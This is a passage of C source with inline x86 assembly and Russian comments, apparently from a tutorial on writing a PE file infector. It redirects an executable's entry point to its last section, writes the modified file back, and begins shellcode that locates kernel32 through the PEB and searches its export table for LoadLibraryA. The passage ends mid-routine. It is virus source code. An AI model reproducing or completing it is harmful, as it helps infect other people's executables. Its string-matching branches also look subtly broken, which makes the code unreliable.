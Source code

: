 ```c
    PIMAGE_SECTION_HEADER last = first + (nt->FileHeader.NumberOfSections - 1);
 
    SetFilePointer(file, 0, 0, FILE_BEGIN);
    //сохраняем оригинальную точку входа
    DWORD OEP = nt->OptionalHeader.AddressOfEntryPoint + nt->OptionalHeader.ImageBase;
 
    // мы меняем оригинальную точку входа на адрес последней секции
    nt->OptionalHeader.AddressOfEntryPoint = last->VirtualAddress;
    WriteFile(file, pByte, filesize, &dw, 0);
 
    // получаем опкоды
    DWORD start(0), end(0);
    __asm{
        mov eax, loc1
        mov[start], eax
        //мы пропускаем вторую ассемблерную вставку (__asm)
        //чтобы не исполнять ее в самом коде инфектора
        jmp over
        loc1:
    }
 
    __asm{
        /*
            Смысл этого куска кода в чтении базового адреса kernel32.dll
            из PED, просмотр таблицы экспорта (EAT) и поиск функций
        */
        mov eax, fs:[30h]
        mov eax, [eax + 0x0c]; 12
        mov eax, [eax + 0x14]; 20
        mov eax, [eax]
        mov eax, [eax]
        mov eax, [eax + 0x10]; 16
 
        mov   ebx, eax; // Берем базовый адрес kernel32
        mov   eax, [ebx + 0x3c]; // VMA заголовка PE
        //(virtual memory address - адрес виртуальной памяти - прим.пер.) 
        mov   edi, [ebx + eax + 0x78]; // Относительное смещение таблицы экспорта
        add   edi, ebx; // VMA таблицы экспорта
        mov   ecx, [edi + 0x18]; // количество имен
 
        mov   edx, [edi + 0x20]; // Относительное смещение таблицы имен
        add   edx, ebx; // VMA таблицы имен
        // теперь давайте посмотрим на функцию LoadLibraryA
 
        LLA :
        dec ecx
            mov esi, [edx + ecx * 4]; //сохраняем относительное смещение имени
            add esi, ebx; //Устанавливаем в esi - VMA текущего имени 
            cmp dword ptr[esi], 0x64616f4c; //обратный порядок байт L(4c)o(6f)a(61)d(64)
            je LLALOOP1
        LLALOOP1 :
        cmp dword ptr[esi + 4], 0x7262694c
            ;L(4c)i(69)b(62)r(72)
            je LLALOOP2
        LLALOOP2 :
        cmp dword ptr[esi + 8], 0x41797261; //третье слово = a(61)r(72)y(79)A(41)
            je stop; //прыгаем на метку stop, потому что мы нашли его
            jmp LLA; //Load Libr aryA
        stop :
        mov   edx, [edi + 0x24];  // Таблица относительных порядковых номеров функций
            add   edx, ebx; //Таблица порядковых номеров функций
            mov   cx, [edx + 2 * ecx];// порядковый номер функции
            mov   edx, [edi + 0x1c];// Таблица относительных адресов смещений
```